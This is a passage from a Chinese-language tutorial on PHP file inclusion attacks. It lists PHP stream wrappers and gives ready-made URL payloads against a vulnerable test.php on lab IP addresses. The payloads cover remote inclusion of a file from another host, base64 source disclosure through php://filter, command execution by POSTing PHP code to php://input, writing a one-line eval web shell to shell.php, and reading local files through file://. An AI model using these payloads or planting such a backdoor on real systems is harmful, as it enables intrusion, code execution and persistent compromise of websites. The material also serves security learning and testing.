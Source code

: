 ```
http://127.0.0.1/test.php?filename=http://192.168.8.10/1.txt
```

### php伪协议

还可以使用php伪协议进行文件包含

- file :// — 访问本地文件系统 
- http:// — 只读访问 HTTP(s) 网址
- ftp:// — 访问 FTP(s) URLs
- php:// — 访问各个输入/输出流（I/O streams）（重点）
- zlib:// — 压缩流
- data:// — 数据（RFC 2397）
- glob:// — 查找匹配的文件路径模式
- phar:// — PHP 归档
- ssh2:// — Secure Shell 2
- rar:// — RAR
- ogg:// — 音频流
- expect:// — 处理交互式的流

使用例子：

**PHP协议读取1.txt文件源码**

```
http://192.168.102.143:8888/test.php?filename1=php://filter/read=convert.base64-encode/resource=1.txt
```

- 原理：在文件输入之前先过滤，读取过滤器内的内容，其中resource为要过滤的数据流。
- base64加密原因：有时候读取由于编码方式的不同造成乱码，这里加密后，就不会乱码 

**PHP格式执行文件**

```
http://192.168.102.143:8888/test.php?filename1=php://input
post提交数据：<?php system(ipconfig);?>
```

原理：

- php://input可以读取没有处理过的POST数据。
- 相较于$HTTP_RAW_POST_DATA而言，它给内存带来的压力较小，并且不需要特殊的php.ini设置。php://input不能用于enctype=multipart/form-dat

**Php协议写入一句话后门代码**

```
http://192.168.102.143:8888/test.php?filename1=php://input
post提交数据：<?php fputs(fopen('shell.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
```

原理：用fopen打开或者创建一个shell.php的文件，用fputs将字符串`<?php @eval($_GET[cmd]); ?>`写入shell.php文件中

**file协议读取文件内容（所有脚本都适用）**

```
http://192.168.102.143:8888/test.php?filename1=file://C:/phpstudy/PHPTutorial/WWW/1.txt
```
